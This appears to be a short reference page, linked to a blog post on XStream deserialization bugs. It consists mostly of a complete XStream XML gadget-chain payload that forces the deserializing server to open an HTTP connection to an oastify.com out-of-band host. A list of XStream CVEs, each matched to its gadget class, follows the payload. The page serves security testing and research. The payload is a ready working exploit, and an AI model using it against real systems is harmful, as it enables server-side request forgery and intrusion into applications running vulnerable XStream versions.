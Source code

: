 https://fynch3r.github.io/XStream%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E6%A2%B3%E7%90%86/

```xml
<map><entry><jdk.nashorn.internal.objects.NativeString><flags>0</flags><value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data"><dataHandler><dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource"><is class="javax.crypto.CipherInputStream"><cipher class="javax.crypto.NullCipher"><initialized>false</initialized><opmode>0</opmode><serviceIterator class="javax.imageio.spi.FilterIterator"><iter class="javax.imageio.spi.FilterIterator"><iter class="java.util.Collections$EmptyIterator" /><next class="sun.net.www.protocol.http.HttpURLConnection"><url>http://y76img5zt2wzvdfqvqbjumvs5jbagy5.oastify.com</url></next></iter><filter class="javax.imageio.ImageIO$ContainsFilter"><method><class>sun.net.www.protocol.http.HttpURLConnection</class><name>connect</name><parameter-types /></method><name>asdasd</name></filter><next class="string">asdasd</next></serviceIterator><lock /></cipher><input class="java.lang.ProcessBuilder$NullInputStream" /><ibuffer></ibuffer><done>false</done><ostart>0</ostart><ofinish>0</ofinish><closed>false</closed></is><consumed>false</consumed></dataSource><transferFlavors /></dataHandler><dataLen>0</dataLen></value></jdk.nashorn.internal.objects.NativeString><jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString" /></entry><entry><jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString" /><jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString" /></entry></map>
```
CVE-2013-7285  java.beans.EventHandler

CVE-2020-26217/CVE_2020_26259 jdk.nashorn.internal.objects.NativeString

CVE_2021_21344/CVE_2021_21345 sun.awt.datatransfer.DataTransferer$IndexOrderComparator

CVE_2021_21346 sun.swing.SwingLazyValue

CVE_2021_21347/CVE_2021_21350 javafx.collections.ObservableList$1

CVE_2021_21351 javax.naming.ldap.Rdn$RdnEntry

